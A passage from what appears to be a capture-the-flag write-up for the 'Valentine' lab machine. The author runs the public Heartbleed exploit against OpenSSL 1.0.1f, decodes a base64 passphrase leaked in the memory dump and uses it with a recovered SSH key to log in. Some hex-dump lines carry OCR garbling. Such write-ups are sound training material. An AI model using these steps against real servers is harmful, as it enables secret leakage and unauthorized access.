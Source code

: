 ```shell
-------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

This time, <a href="https://www.exploit-db.com/exploits/32764">OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure</a> has been used.<br>
Running several times, we can get an interesting parameter `$text=`.
```shell
root@kali:~# python 32764.py 10.10.10.79
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C 009 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  i
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 19  mV0aGVoeXBlCg==.
  0160: DB DA 04 9F 88 9D 1A 08 49 22 66 0D F7 3C 50 59  ........I"f..<PY
  0170: BE 7E 12 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  .~..............

---

```

Decode the base64 text.
```shell
root@kali:~# echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```
Using the ssh key and key passphrase found in the previous step, we can log in to the `Valentine` as an user `hype`.
```shell
root@kali:~# ssh -i hype_key hype@10.10.10.79
Enter passphrase for key 'hype_key': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

```